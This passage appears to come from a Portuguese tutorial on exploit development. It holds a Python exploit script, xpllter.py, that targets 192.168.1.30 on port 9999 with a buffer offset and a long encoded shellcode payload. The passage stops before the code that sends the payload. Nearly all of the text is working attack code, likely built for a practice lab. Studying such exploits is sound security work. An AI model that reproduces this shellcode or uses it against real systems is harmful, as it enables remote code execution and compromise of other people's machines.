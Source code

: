 Vamos atualizar o exploit.

xpllter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payoad
offset = 3000

shellcode =  b""
shellcode += b"\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49"
shellcode += b"\x49\x49\x49\x49\x49\x49\x49\x37\x51\x5a\x6a"
shellcode += b"\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51"
shellcode += b"\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
shellcode += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x59\x6c\x48"
shellcode += b"\x68\x4f\x72\x65\x50\x67\x70\x47\x70\x53\x50"
shellcode += b"\x4d\x59\x6b\x55\x55\x61\x79\x50\x72\x44\x4e"
shellcode += b"\x6b\x30\x50\x70\x30\x4c\x4b\x30\x52\x56\x6c"
shellcode += b"\x4e\x6b\x31\x42\x64\x54\x6e\x6b\x70\x72\x71"
shellcode += b"\x38\x36\x6f\x78\x37\x32\x6a\x55\x76\x56\x51"
shellcode += b"\x6b\x4f\x6c\x6c\x65\x6c\x71\x71\x73\x4c\x47"
shellcode += b"\x72\x36\x4c\x77\x50\x5a\x61\x5a\x6f\x34\x4d"
shellcode += b"\x57\x71\x5a\x67\x6d\x32\x48\x72\x53\x62\x56"
shellcode += b"\x37\x4c\x4b\x53\x62\x54\x50\x4c\x4b\x32\x6a"
shellcode += b"\x55\x6c\x6e\x6b\x42\x6c\x74\x51\x30\x78\x6a"
shellcode += b"\x43\x57\x38\x56\x61\x4a\x71\x36\x31\x6c\x4b"
shellcode += b"\x51\x49\x75\x70\x35\x51\x6e\x33\x4c\x4b\x37"
shellcode += b"\x39\x64\x58\x49\x73\x57\x4a\x73\x79\x6e\x6b"
shellcode += b"\x65\x64\x4e\x6b\x77\x71\x6b\x66\x50\x31\x4b"
shellcode += b"\x4f\x6e\x4c\x59\x51\x5a\x6f\x54\x4d\x73\x31"
shellcode += b"\x4a\x67\x64\x78\x4b\x50\x42\x55\x6a\x56\x74"
shellcode += b"\x43\x51\x6d\x78\x78\x37\x4b\x33\x4d\x65\x74"
shellcode += b"\x43\x45\x4d\x34\x30\x58\x4e\x6b\x36\x38\x51"
shellcode += b"\x34\x53\x31\x59\x43\x73\x56\x6c\x4b\x54\x4c"
shellcode += b"\x50\x4b\x6c\x4b\x56\x38\x65\x4c\x33\x31\x4e"
shellcode += b"\x33\x6e\x6b\x64\x44\x4e\x6b\x53\x31\x4a\x70"
shellcode += b"\x6e\x69\x50\x44\x35\x74\x67\x54\x73\x6b\x31"
shellcode += b"\x4b\x53\x51\x66\x39\x72\x7a\x53\x61\x49\x6f"
shellcode += b"\x39\x70\x61\x4f\x31\x4f\x62\x7a\x4e\x6b\x62"
shellcode += b"\x32\x68\x6b\x4e\x6d\x73\x6d\x50\x68\x45\x63"
shellcode += b"\x70\x32\x53\x30\x67\x70\x50\x68\x73\x47\x70"
shellcode += b"\x73\x75\x62\x33\x6f\x62\x74\x71\x78\x32\x6c"
shellcode += b"\x62\x57\x66\x46\x37\x77\x79\x6f\x69\x45\x6e"
shellcode += b"\x58\x6c\x50\x35\x51\x77\x70\x55\x50\x51\x39"
shellcode += b"\x7a\x64\x52\x74\x32\x70\x61\x78\x31\x39\x4d"
shellcode += b"\x50\x52\x4b\x33\x30\x4b\x4f\x5a\x75\x50\x50"
shellcode += b"\x30\x50\x30\x50\x36\x30\x73\x70\x72\x70\x37"
shellcode += b"\x30\x70\x50\x31\x78\x68\x6a\x54\x4f\x79\x4f"
shellcode += b"\x39\x70\x79\x6f\x68\x55\x4e\x77\x62\x4a\x65"
shellcode += b"\x55\x75\x38\x69\x50\x79\x38\x36\x61\x64\x51"
shellcode += b"\x70\x68\x65\x52\x37\x70\x75\x70\x39\x6b\x4d"
shellcode += b"\x59\x48\x66\x70\x6a\x72\x30\x51\x46\x46\x37"
shellcode += b"\x53\x58\x7a\x39\x6c\x65\x50\x74\x51\x71\x79"
shellcode += b"\x6f\x6a\x75\x4f\x75\x4b\x70\x44\x34\x56\x6c"
shellcode += b"\x49\x6f\x30\x4e\x55\x58\x64\x35\x48\x6c\x31"
shellcode += b"\x78\x7a\x50\x6f\x45\x4c\x62\x76\x36\x4b\x4f"
shellcode += b"\x4a\x75\x71\x78\x35\x33\x52\x4d\x71\x74\x55"
shellcode += b"\x50\x4d\x59\x69\x73\x36\x37\x53\x67\x43\x67"
```